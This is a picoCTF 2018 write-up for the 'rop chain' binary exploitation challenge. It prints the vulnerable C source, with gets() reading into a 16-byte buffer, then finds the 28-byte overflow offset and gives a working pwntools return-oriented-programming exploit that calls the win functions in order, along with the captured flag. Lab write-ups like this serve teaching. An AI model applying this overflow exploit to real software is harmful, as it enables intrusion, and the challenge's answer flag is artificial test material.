

# rop chain
**Points: 350**

## Binary Exploitation

## Question
>Can you exploit the following program and get the flag? You can findi the program in /problems/rop-chain_3_f91334c5acb91bde3de858eb8045928a on the shell server? Source. 

### Hint
>Try and call the functions in the correct order! - Remember, you can always call main() again!

## Solution
**Source:**
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <stdbool.h>

#define BUFSIZE 16

bool win1 = false;
bool win2 = false;

void win_function1() {
  win1 = true;
}

void win_function2(unsigned int arg_check1) {
  if (win1 && arg_check1 == 0xBAAAAAAD) {
    win2 = true;
  }
  else if (win1) {
    printf("Wrong Argument. Try Again.\n");
  }
  else {
    printf("Nope. Try a little bit harder.\n");
  }
}

void flag(unsigned int arg_check2) {
  char flag[48];
  FILE *file;
  file = fopen("flag.txt", "r");
  if (file == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(flag, sizeof(flag), file);
  
  if (win1 && win2 && arg_check2 == 0xDEADBAAD) {
    printf("%s", flag);
    return;
  }
  else if (win1 && win2) {
    printf("Incorrect Argument. Remember, you can call other functions in between each win function!\n");
  }
  else if (win1 || win2) {
    printf("Nice Try! You're Getting There!\n");
  }
  else {
    printf("You won't get the flag that easy..\n");
  }
}

void vuln() {
  char buf[16];
  printf("Enter your input> ");
  return gets(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
}
```
**[+] Find the padding:**
```console
$ msf-pattern_create -l 64                              
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A
gdb-peda$ r                                                                                              
Starting program: rop                                                                               
Enter your input> Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A
...
Stopped reason: SIGSEGV
0x62413961 in ?? ()
$ msf-pattern_offset -q 0x62413961
[*] Exact match at offset 28
```
We need to call:  
> win_function1(),  win_function2(0xBAAAAAAD) and flag(0xDEADBAAD)

So our payload:
> payload = JUNK + p32(win1_addr) + p32(win2_addr) + p32(flag_addr) + p32(0xbaaaaaad) + p32(0xDEADBAAD)

```python
from pwn import *
from getpass import getpass

e = ELF('rop')
flag_addr = e.symbols[b'flag']
win1_addr = e.symbols[b'win_function1']
win2_addr = e.symbols[b'win_function2']
JUNK = b'A' * 28

payload = JUNK + p32(win1_addr) + p32(win2_addr) + p32(flag_addr) + p32(0xbaaaaaad) + p32(0xDEADBAAD)

path = '/problems/rop-chain_3_f91334c5acb91bde3de858eb8045928a/'

s = ssh(host='2018shell4.picoctf.com', user=input('[+] SSH username: '), password=getpass('[+] SSH password: '))

r = s.run('cd %s && ./rop' % path)

r.recv()
r.sendline(payload)
log.info('Flag: ' + r.recvline().decode('utf-8'))
r.close()
s.close()
```



### Flag
`picoCTF{rOp_aInT_5o_h4Rd_R1gHt_6e6efe52}`
